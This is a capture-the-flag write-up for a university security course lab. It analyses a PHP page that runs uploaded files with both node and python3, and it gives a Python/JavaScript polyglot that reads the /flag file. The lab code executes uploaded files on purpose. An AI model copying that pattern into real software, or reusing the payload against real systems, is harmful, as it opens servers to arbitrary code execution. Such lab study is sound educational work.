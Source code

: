 ```yaml
---
title: Simple Welcome - 0x04(Lab - Script)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Welcome"
---
```


# Simple Welcome - 0x04(Lab - Script)
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://pyscript.ctf.zoolab.org/

## Source Code
```php=
<?php
    if(!isset($_FILES["file"]))
        highlight_file(__file__) && die();
    $flag = file_get_contents('/flag');
    $node = @`node {$_FILES["file"]["tmp_name"]} 2>&1`;
    $python = @`python3 {$_FILES["file"]["tmp_name"]} 2>&1`;
    if($flag === $node && $flag === $python)
        echo 'Here is your Flag: '.$flag;
    else
        echo 'Fail :(';
?>
```

### Analysis
Must write a script that can be executed in python and node language simultaneously.

## Exploit - Using comment
1. In python
The comment is `#` for single line and `'''` for multi lines
2. In node
The comment is `//` for single line and `/**/` for multi lines
3. Using different definition of comment to write script
Some tips:
    ```python!
    a = 1 // 1;
    b = ''''''
    ```
    Both of these instruction are valid in python
4. Whole payload
* Python
    ```python!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```
* Javascript
    ```javascript!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```

* Whole exploit
    ```!=
    a = 1 // 1 ; b = '''

    const fs = require('fs');

    fs.readFile("/flag", 'utf8',(error, data) => {
        if (error) {
            console.error(error);
            return;
        }
        console.log(data.split('\n')[0]);
    })

    /* '''

    f = open("/flag", "r")
    print(f.read().split('\n')[0])
    # */
    ```

## Reference
[【已解决】PHP中函数前面加上at符号@的作用](https://www.crifan.com/php_function_front_at_sign_meaning/)
[[shell 2>&1是甚麼意思]](https://charleslin74.pixnet.net/blog/post/405455902)
[How to open a local file with JavaScript?](https://researchhubs.com/post/computing/javascript/open-a-local-file-with-javascript.html)
[How to Read/Write local files with Node.js](https://medium.com/@SergioPietri/how-to-read-write-local-files-with-node-js-3d2f58b0384)
[String.prototype.split()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
